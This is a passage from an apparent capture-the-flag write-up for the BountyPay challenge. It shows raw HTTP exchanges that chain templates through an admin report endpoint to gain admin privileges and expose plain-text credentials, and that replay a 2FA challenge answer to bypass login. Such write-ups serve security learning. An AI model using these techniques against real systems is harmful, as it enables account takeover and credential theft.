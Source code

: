 Finally, I reversed the order of templates: `/?template[]=login&username=sandra.allison&template[]=ticket&ticket_id=3582#tab4`
```http
GET /admin/report?url=Lz90ZW1wbGF0ZVtdPWxvZ2luJnVzZXJuYW1lPXNhbmRyYS5hbGxpc29uJnRlbXBsYXRlW109dGlja2V0JnRpY2tldF9pZD0zNTgyI3RhYjQ= HTTP/1.1
Host: staff.bountypay.h1ctf.com
X-Requested-With: XMLHttpRequest
Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR09NOVM5N0IvVGtnM2g3TmhWU0lENlV5WVJLRHlmRlZMRXZqTzFPaWQ0bDA0M2xZdXozYld3czZSUG9McFZ4TWlCSGtVR3lDU3FycUZGUjY0QXNHclN6dzhLTUpjUEJ6c3Z5VmIwNnRMSmFMTzZYR0FrTURqY0NsMDY0bVkrQzE3UT09
```
```http
HTTP/1.1 200 OK
Content-Type: application/json
Set-Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR09NOVM5N0IvVGtnM2g3TmhWU0lENlV5WVJLRHlmRlZMRXZqTzFPaWQ0bDA0M2xZdXozYkJqRURhdXczckZGTWlCSGtVR3lDU3FycUZGUjY0QXNHOWlLbi9xY0pkUFIxdnFpV1B4V3JmY3JhT3ZqQ1ZFVlpnYzMzaFAxMllyUzE3UT09; expires=Mon, 06-Jul-2020 23:09:22 GMT; Max-Age=2592000; path=/

["Report received"]
```

And we were given a new session cookie! Logging in with that new cookie, we see that we indeed have extra privileges now. Namely, there is a new tab named `Admin`, showing plain text credentials for Mårten's customer account!
{F863165}

One last thing that wasn't clear to me is what `/?template=admin` was for. I visited it, and it just returned `view admin` string... Must have just been added to divert attention.

## Payment 2FA Bypass / CSS Exfiltration

Back to customer portal at `app.bountypay.h1ctf.com` we login with Mårten's credentials. We use the same `challenge` and `challenge_answer` as before to bypass login 2FA:

```http
POST / HTTP/1.1
Host: app.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded

username=marten.mickos&password=h%26H5wy2Lggj*kKn4OD%26Ype&challenge=5828c689761cce705a1c84d9b1a1ed5e&challenge_answer=bD83Jk27dQ
```
```http
HTTP/1.1 302 Found
Set-Cookie: token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9; expires=Mon, 06-Jul-2020 23:56:57 GMT; Max-Age=2592000
Location: /
```

Recall the original CTF tweet, and that we need to help Mårten approve May bug bounty payments. We thus fetch transactions for May 2020 and we indeed get a valid response this time:
{F863225}

When we click Pay, however, we're presented with another 2FA challenge:
{F863226}
